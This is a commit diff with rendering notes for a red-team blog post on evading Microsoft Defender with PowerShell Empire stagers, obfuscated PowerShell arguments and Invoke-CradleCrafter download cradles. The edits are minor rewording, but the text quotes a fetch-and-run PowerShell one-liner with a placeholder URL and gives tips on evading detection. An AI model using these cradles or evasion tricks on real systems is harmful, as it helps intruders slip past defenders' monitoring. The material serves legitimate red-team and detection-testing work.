

Before and after one commit to whmacmac/test, a Jekyll site: the page built from _posts/2020-04-22-RedTeam-Exercises-with-OpenSource-Tools-Part-2.md, in a window 1280 px wide and 1400 px high, scrolled down 4649 px. Shown: the whole window, without its empty margins (248-1031 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2020-04-22-RedTeam-Exercises-with-OpenSource-Tools-Part-2.md

```diff
--- a/_posts/2020-04-22-RedTeam-Exercises-with-OpenSource-Tools-Part-2.md
+++ b/_posts/2020-04-22-RedTeam-Exercises-with-OpenSource-Tools-Part-2.md
@@ -99,14 +99,14 @@ It is well known that some powershell arguments were abused in the last years. I
  <li>encodedcommand – indicates the following chunk of text is a base64 encoded command.</li>
  </ul>
 
-The Empire's stager (multi/launcher) is coming with the 'encodedcommand' command as enabled by default. Besides this, the empire's listeners (HTTP listener) is using all of the above arguments as part of the launcher syntax. When they are used together, most likely there is something suspicious. Use only 'noninteractive' or '-windowsstyle hidden' if it is needed.
+The Empire's stager (multi/launcher) is coming with the 'encodedcommand' command as enabled by default. Besides this, the empire's listeners (HTTP listener) use all of the arguments provided above as part of the launcher syntax. When they are used together, most likely there is something suspicious. Use only 'noninteractive' or '-windowsstyle hidden' if it is needed.
 
 <div>
 <center><img src="/images/2020-04-11-RedTeam-Exercises-with-OpenSource-Tools-Part-1.md/launcher.png">
  </center>
 </div>
 
-I recommend to turn base64 off. It doesn't add anything to your obfuscation while trying to avoid Defender. It's really just used because it's the easiest way to handle sending the command in a string. Once you have your obfuscated code you can re-encode it if you really want to use this method. <br/>
+I recommend to turn base64 off. It doesn't add anything to your obfuscation while trying to avoid Defender. It's just used because it's the easiest way to handle sending the command in a string. Once you have your obfuscated code you can re-encode it if you really want to use this method. <br/>
 Most security related solutions created features for detecting base64 encoded strings and analyzing them after the content is decoded. CarbonBlack, FireEye made public their sollutions' capabilities in the past, being clear for us that the above arguments are using as a part of their detection rules: you can read more <a href="https://www.carbonblack.com/2015/08/14/how-to-detect-powershell-empire-with-carbon-black/" style="text-decoration: none;">here</a> and <a href="https://www.fireeye.com/blog/threat-research/2018/07/malicious-powershell-detection-via-machine-learning.html" style="text-decoration: none;">here</a>.
 
 <br/><br/>Now that I identified almost all the patterns that are triggering the Microsoft's signatures, let's talk about the dropper before starting with the demo.
@@ -115,7 +115,7 @@ Most security related solutions created features for detecting base64 encoded st
 Possibly many of you use the powershell command "IEX((New-Object System.Net.WebClient).downloadstring('http://something'));" for downloading in memory your payload. I worked in a SOC and I know the strings like "new-object", "Webclient", "downloadstring" are used by many for detecting suspicious events. I will make use of an open source <a href="https://github.com/danielbohannon/Invoke-CradleCrafter" style="text-decoration: none;">tool</a> made special for this kind of tasks.<br/>
 Invoke-CradleCafter is a tool special created for automating the process for making obfuscated downloaders in memory or on disk.
 
-I am using the only in memory downloader. I invite you to take a look on it in case you are interested in using it. If you are a blue teamer, you may be interested in testing your detection capabilities of your SIEM/HIDS with Invoke-CradleCafter.
+In my example I am using "MEMORY\PSCOMPILEDCSHARP\INVOKE\10". I invite you to take a look on it in case you are interested in using it. If you are a blue teamer, you may be interested in testing your detection capabilities of your SIEM/HIDS with Invoke-CradleCafter.
 <br/> I can also obfuscate more the dropper with Invoke-Obfuscation, for escaping the most exotic SIEM/HIDS rules but I am not doing it this time.
 
 <div>
```
Also changed, not shown: other parts of _posts/2020-04-22-RedTeam-Exercises-with-OpenSource-Tools-Part-2.md (+1 -1 lines).
